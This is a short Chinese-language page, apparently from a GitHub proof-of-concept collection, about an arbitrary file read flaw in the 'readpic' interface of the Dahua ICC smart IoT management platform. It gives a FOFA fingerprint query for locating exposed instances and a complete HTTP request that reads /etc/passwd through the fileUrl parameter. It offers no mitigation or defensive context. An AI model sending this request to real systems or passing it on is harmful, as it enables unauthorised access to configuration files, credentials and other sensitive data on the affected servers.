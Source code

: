 # 大华智能物联ICC综合管理平台readpic任意文件读取漏洞


## 大华智能物联ICC综合管理平台readpic任意文件读取漏洞
大华智慧园区综合管理平台是一款综合管理平台，具备园区运营、资源调配和智能服务等功能。该平台的 "readpic" 接口存在一个任意文件读取漏洞，恶意攻击者可通过文件读取漏洞进行访问和读取系统中的文件，包括配置文件、日志和其他敏感数据，从而利用攻击。

## fofa
```
:body="*客户端会小于800*"
```

## poc
```
GET /evo-apigw/evo-cirs/file/readPic?fileUrl=file:/etc/passwd HTTP/2
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
If-None-Match: W/"63ba2750-93e"
Te: trailers
```

![be62ca49838833e8b7527d0ab2dd5541](https://github.com/wy876/POC/assets/139549762/25cb6acd-b1bc-4012-a52e-92356d47ada5)

